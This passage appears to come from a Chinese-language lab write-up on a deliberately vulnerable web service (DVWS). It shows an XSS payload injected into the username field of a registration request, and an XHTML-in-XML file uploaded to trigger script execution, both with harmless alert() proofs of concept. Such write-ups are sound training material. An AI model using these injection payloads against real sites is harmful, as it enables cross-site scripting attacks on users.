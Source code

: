 细心的朋友也许可能会发现其实在 DVWS 的登录区域中也存在一处 XSS 漏洞，注册用户时我们将一下请求发送到后端 API

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```

[![](assets/1706957905-7ceadf50a8c8e351b480dbeaeba0446b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094016-040dd960-c16c-1.png)

在这里我们还要扩展一个通过上传 XML 文件导致 XSS 的示例，构造如下带有 XHTML 的 XML 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作

[![](assets/1706957905-eb958e1398b8eb72f6df460f1d6736b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094044-1491b66c-c16c-1.png)
